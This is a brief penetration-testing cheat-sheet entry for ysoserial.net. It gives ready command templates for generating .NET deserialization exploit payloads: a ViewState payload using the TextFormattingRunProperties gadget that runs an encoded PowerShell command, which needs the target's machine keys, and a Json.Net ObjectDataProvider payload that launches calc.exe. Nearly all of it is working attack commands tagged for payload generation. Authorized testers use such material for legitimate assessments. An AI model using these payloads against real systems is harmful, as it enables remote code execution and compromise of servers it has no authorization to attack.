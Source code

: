 # ysoserial.net

% .net, unserialize

## ysoserial.net - generate payload VIEWSTATE
#platform/windows #target/local #cat/ATTACK/GENERATE_PAYLOAD 
```cmd
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell -EncodedCommand <base64_encoded_command>" --path="<asp_file_webroot_relative_path>" --apppath="<application_path_webroot_relative>" --decryptionalg="3DES" --decryptionkey="<decryption_key>" --validationalg="SHA1" --validationkey="<validation_state>"
```

## ysoserial.net - calc.exe payload for Json.Net using ObjectDataProvider gadget.
#platform/windows #target/local #cat/ATTACK/GENERATE_PAYLOAD 
```cmd
ysoserial.exe -f <lib|Json.Net> -g <gadget|ObjectDataProvider> -o raw -c "<command|calc.exe>" -t
```


